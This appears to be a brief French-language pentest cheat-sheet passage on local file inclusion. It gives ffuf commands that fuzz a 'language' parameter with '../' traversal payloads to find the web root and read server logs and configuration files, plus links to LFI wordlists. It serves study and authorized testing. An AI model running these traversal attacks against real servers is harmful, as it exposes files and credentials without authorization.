 ```sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php'
```

Logs/Configurations du serveur

https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

```sh
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ'
```